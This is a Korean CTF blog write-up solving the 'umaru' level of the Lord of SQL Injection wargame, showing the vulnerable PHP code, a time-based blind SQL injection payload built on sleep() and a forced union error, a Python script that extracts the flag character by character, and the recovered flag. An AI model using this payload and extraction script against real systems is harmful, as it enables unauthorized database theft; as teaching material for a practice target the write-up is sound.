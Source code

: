 ```yaml
---
title: "[Lord of SQL Injection : eagle-jump] LoS - umaru 문제풀이"
date: 2018-08-24
draft: false
category: [wargame]
subcategories: [lord-of-sql-injection]
tags: [Write-up, Lord of SQL Injection]
---
```


내가 지금 문제를 풀고 있는 서버는 `los.rubiya.kr`인데, `los.eagle-jump.org`에도 같은 문제가 있다.
그런데 `eagle-jump` 서버의 마지막 문제는 `rubiya`의 서버에 없는 것 같아 따로 풀어보게 되었다.  

<!--more-->

코드는 다음과 같다.  

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();

  function reset_flag(){
    $new_flag = substr(md5(rand(10000000,99999999)."qwer".rand(10000000,99999999)."asdf".rand(10000000,99999999)),8,16);
    $chk = @mysql_fetch_array(mysql_query("select id from prob_umaru where id='{$_SESSION[los_id]}'"));
    if(!$chk[id]) mysql_query("insert into prob_umaru values('{$_SESSION[los_id]}','{$new_flag}')");
    else mysql_query("update prob_umaru set flag='{$new_flag}' where id='{$_SESSION[los_id]}'");
    echo "reset ok";
    highlight_file(__FILE__);
    exit();
  }

  if(!$_GET[flag]){ highlight_file(__FILE__); exit; }

  if(preg_match('/prob|_|\./i', $_GET[flag])) exit("No Hack ~_~");
  if(preg_match('/id|where|order|limit|,/i', $_GET[flag])) exit("HeHe");
  if(strlen($_GET[flag])>100) exit("HeHe");

  $realflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru where id='{$_SESSION[los_id]}'"));

  @mysql_query("create temporary table prob_umaru_temp as select * from prob_umaru where id='{$_SESSION[los_id]}'");
  @mysql_query("update prob_umaru_temp set flag={$_GET[flag]}");

  $tempflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru_temp"));
  if((!$realflag[flag]) || ($realflag[flag] != $tempflag[flag])) reset_flag();

  if($realflag[flag] === $_GET[flag]) solve("umaru");
?>
```

뭔가 엄청 복잡 해 보인다.
자세히 살펴보면, `reset_flag()` 라는 함수에서 `$new_flag`라는 변수를 생성한다.
이 변수는 `랜덤숫자+qwer+랜덤숫자+asdf`를 `md5`로 해싱한 후 16글자만을 자른 값이다.
그 후, 나의 `los_id`와 함께 테이블에 값을 저장한다.
내가 넘길 수 있는 쿼리스트링은 `flag` 뿐이다.

그런데 `$_GET['flag']`가 여러 곳에서 사용되는데, 내가 `flag`의 값을 넘겨주면, 몇 가지 필터링을 검사한 후 데이터베이스에 저장 된 나의 `flag`를 찾아 `prob_umaru_temp` 테이블에 저장한다.
이 후, 이 테이블에 내가 입력 한 `flag`의 값을 임시로 새로 생성 한 테이블에 저장한다.
그리고 원래 테이블에 저장되어 있던 `flag`의 값과, 임시 테이블에 저장되어 있는 `flag`의 값을 비교하는데, 만약 값이 다르거나 원래 테이블에 `flag`가 없다면 `reset_flag()` 함수를 실행시킨다.
즉, `flag`를 맞추지 못하면 계속 랜덤 값으로 `flag`가 바뀐다. ㅠㅠ
따라서 문제를 풀기 위해서는 다음과 같은 조건이 필요하다.  

> 1. flag의 값은 100글자를 넘기지 말 것  
> 2. flag가 갱신되지 않도록 update 쿼리문에서 에러를 발생시킬 것  
> 3. ,를 사용할 수 없기 때문에 sleep 함수를 사용해 값을 찾을 것  

일단 문제에서 해쉬값 중 16글자를 잘라 테이블에 저장하므로, `flag`의 길이는 16글자임을 알 수 있다.
때문에 값만 찾아내면 된다.
일단 위의 조건을 만족하는 쿼리를 찾기 위해 서버에서 이것저것 테스트 해 보았다.
제일 먼저 찾은 쿼리는 다음과 같다.  

```mysql
update prob_umaru_temp set flag=sleep(3 * (flag like 'a%')) + (select 1 union select 2)
```

이러면 먼저 `sleep()` 함수 내에서 `flag`의 값이 `a%`와 같은지를 비교하고, 같다면 `1`이 되기 때문에 `sleep(3*1)`이 만들어 진다.
즉, 3초 동안 `sleep()` 함수를 실행하게 된다.
반면 다를 경우에는 `flag like 'a%'`가 0이 되어 `sleep(3*0)`이 만들어 지기 때문에 `sleep()` 함수를 실행하지 않는다.
`sleep()` 함수를 실행한 후에는 `+`연산으로 연결 된 `select 1 union select 2`를 실행하는데, 이 전 문제들에서도 사용했다시피 해당 쿼리는 에러를 유발한다.

때문에 결과적으로 완성되는 쿼리는 에러가 발생하기 때문에 `update` 문을 실행하지 않게 되고, `prob_umaru_temp` 테이블과 `prob_umaru` 테이블에 저장된 `flag`의 값은 일치하기 때문에 `reset_flag()` 함수를 실행하지 않는다.
그래서 이를 바탕으로 코드를 구현해서 테스트 해 보았는데, 아무리 해도 결과가 나오지 않았다.
내 서버에서는 잘 되는데, 문제 서버에서는 안되길래 뭔가 설정이 다르게 되어있나 싶어서 연산자를 이것저것으로 바꿔 보았다.
그 결과 `|`를 쓰니 값을 추출할 수 있었다.
구현한 코드는 아래와 같다.  

```python
import requests
import time

flag = ""
length = 16

url = "https://los.eagle-jump.org/umaru_6f977f0504e56eeb72967f35eadbfdf5.php?flag="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 123):
		try:
			start = time.time()
			query = url + "sleep(3 * (flag like '" + str(flag) + str(chr(i)) +"%')) | (select 1 union select 2)"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if (time.time() - start) > 3:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

이 코드를 돌리면 아래와 같은 결과를 얻을 수 있다.  

```bash
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 8
[+] Found 2 : 89
[+] Found 3 : 892
[+] Found 4 : 8925
[+] Found 5 : 89253
[+] Found 6 : 892531
[+] Found 7 : 8925316
[+] Found 8 : 89253169
[+] Found 9 : 89253169C
[+] Found 10 : 89253169CE
[+] Found 11 : 89253169CE9
[+] Found 12 : 89253169CE98
[+] Found 13 : 89253169CE987
[+] Found 14 : 89253169CE987D
[+] Found 15 : 89253169CE987D1
[+] Found 16 : 89253169CE987D15
[+] Found password :  89253169CE987D15
[+] End
```

`php`에서 `md5` 함수를 사용하면 알파벳 소문자로 값이 출력되므로, 데이터베이스에 저장된 값도 소문자로 이루어져 있을 것이다.
따라서 알파벳 대문자를 소문자로 바꾸어 아래와 같이 입력했다.  

```plain
?flag=89253169ce987d15
```

`eagle-jump` 서버를 `All Clear` 했다!!!
이제 `rubiya` 서버에도 몇 문제 안남았으니 빨리 다 풀어야지 ㅎㅎㅎ

```plain
UMARU Clear!
```

![](/images/los/umaru/umaru_01.png)
